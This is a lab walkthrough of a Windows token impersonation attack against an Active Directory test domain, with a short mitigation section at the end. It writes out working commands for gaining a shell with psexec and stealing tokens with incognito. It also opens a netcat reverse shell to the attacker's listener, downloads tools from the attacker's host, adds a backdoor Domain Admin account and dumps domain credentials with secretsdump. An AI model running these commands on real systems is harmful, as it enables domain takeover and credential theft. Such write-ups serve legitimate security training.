# Token Impersonation Attack

## Tokens

For ease of understanding, you can think of tokens as cookies for the computer. These temporary keys allow you access to a system, a network, or a resource without providing the credentials. A web pentester can think of them as cookies or tokens (JWT etc) for accessing credential-protected resources.
A great thing about tokens is that they persist until the next reboot. When a user logs off, their delegate token is reported as an impersonate token. But that token will still hold all the rights of a delegate token.
### Types of Tokens

There are two types of tokens

- Delegate Token
    - These tokens are for the `interactive` logons, such as logging into the machine or connecting to it via Remote Desktop
- Impersonate Token
    - These tokens are for the `non-interactive` sessions, such as attaching a network drive or a domain logon script
[source](https://www.hackingloops.com/token-impersonation-attack/)

**Token impersonation** is a Windows post-exploitation technique that allows an attacker to steal the access token of a logged-on user on the system without knowing their credentials and impersonate them to perform operations with their privileges. [soruce](https://medium.com/r3d-buck3t/domain-escalation-with-token-impersonation-bc577db55a0f)

# Token Impersonation Attack DEMO (Metasploit & Manual Method)

**Tools required to perform this attack:**
-  Metasploit
- Incognito Standalone Application

**Scenario:** I already have an Active Directory Attack Lab setup that comprises of 1 Domain Controller and 2 Windows 10 machines. For this attack i only need to start up the Domain Controller and 1 target machine. Since this is a post exploitation attack, i have already obtained valid login credentials to the machine through an LLMNR Poisoning attack. Read more [here](https://deusx7.github.io/Posts/Active_Directory/LLMNR_Poisoning/LLMNR_Poisoning.html)

## Using Metasploit
### Step 1: Start metasploit



We have to first of all gain access to the target machine using the psexec module in metasploit. We already have valid credentials for our target which was obtained after performing an LLMNR Poisoning attack.

### Step 2: Search for psexec



### Step 3: Set required options

Now to set required options: **RHOSTS**, **SMBDomain**, **SMBPass**, **SMBUser**, **Payload**


### Step 4: run the exploit

Options set, now to run the exploit:


meterpreter shell access obtained as `NT AUTHORITY\SYSTEM`

### Step 5: Load incognito module

Now for the **Token Impersonation Attack**, We first of all load the incoginito module:


`load incognito`

### Step 6: List available tokens

Now the module is loaded, we need to list the available tokens:



`list_tokens -u`

### Step 7: Impersonate a user

We can impersonate the fcastle user. Note: In a real world scenario, we would have to wait for users to logon to their machines.

Impersonating the user fcastle:


`impersonate_token DEUSX\\fcastle` we add an additional `\` for character escape.

### Step 8: Impersonate Domain Admin User

We are now the fcastle user. Next up is to simulate a login on the machine as an admin and then check the token list again.

Domain Administrator login:



First run `rev2self` to go back to `NT AUTHORITY\SYSTEM` then list the tokens:



Now to impersonate the Admin:


Now that we are Domain Admin we can add user to the Domain:



`net user /add username password /domain`

Adding the user to the Domain Admins group

`net group "Domain Admins" username /ADD /DOMAIN`

The user has been added successfully and the user was also added to the Domain Admins group.

To confirm we can login and check the list of users:




With this new user we can now dump credentials from the domain using secretsdump.



`impacket-secretsdump DOMAIN/username:'password'@IP`

## Manual Exploitation

**Tools required:**
- Incognito binary https://github.com/FSecureLABS/incognito/blob/394545ffb844afcc18e798737cbd070ff3a4eb29/incognito.exe
- netcat 64 bit binary https://github.com/int0x33/nc.exe/blob/master/nc64.exe
- psexec https://github.com/fortra/impacket/blob/master/examples/psexec.py

### Step 1: Gain Shell Access using psexec



`psexec.py DOMAIN/username:'password'@Target_IP`

NOTE: I am using kali and i already have all impacket tools installed which is why i am running psexec using `impacket-psexec`

### Step 2: Transfer binaries (incognito & netcat) to Target system

First start a python server:


Then download on the Target machine:



`python3 -m http.server`

```powershell
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://IP:PORT/file', 'C:\file')"
```

## Step 3: List tokens 



`incognito.exe list_tokens -u`

Currently there are no users to impersonate so let's simulate a user logging on to the machine:


Run the command again:



Now the user fcastle is present, We can decide to impersonate the regular user but let's wait for an Administrator to logon to the machine:



Now let's check the tokens again:


## Step 4: Impersonate the Domain Admin

Yes, we can now impersonate the Domain Administrator. First up we setup a netcat listener on any port and wait for a connection.


`nc -lvnp 4444`

Now we impersonate the Domain Admin and connect to the netcat listener to spawn a CMD shell. If we were to spawn a CMD shell directly, it won't work and will just hang which is why we are making use of a reverse shell.

Now to execute the following on the target machine:


`incognito.exe execute -c "DOMAIN\user" "nc64.exe IP PORT -e cmd.exe"`


## Step 5: Create a new user

Now we are the Domain Administrator. Let's test our privileges by adding a new user and joining them to the "Domain Admins" group.

Adding a user:



adding a user:
`net user /add username password /domain`

adding user to group:
`net group "Domain Admins" username /ADD /DOMAIN`

To confirm we can login to the Domain Controller and check:


## Step 5: Dump secrets from Domain Controller

With this new user we can now dump credentials from the domain using secretsdump:



`impacket-secretsdump DOMAIN/user:'password'@IP`

We have successfully dumped secrets from the Domain Controller

# Token Impersonation Attack Mitigation

Following are some mitigation techniques for preventing Token Impersonation Attacks

- Limit user/group token creation permissions but that is not too much effective
- Account Tiering
    - The domain admin should only log into the machines that they need access to, such a Domain Controllers. Domain Admins should not log into end user machines leading to Domain Admin’s token impersonation and accessing DC
    - Domain Admin can have 2 accounts. One for logging into machines and the other one dedicated for accessing Domain Controller machines
- Local Admin Restriction
    - There must be restriction on local admin rights. Because if every user is local admin and they get compromised, an attacker can get the shell access and perform token impersonation attack

In short, it is all about choosing the right policies and then their implementation. If the right security policies are in place, it would make the job of an attacker much more difficult. [source](https://www.hackingloops.com/token-impersonation-attack/)

Thanks for Reading till the End 👋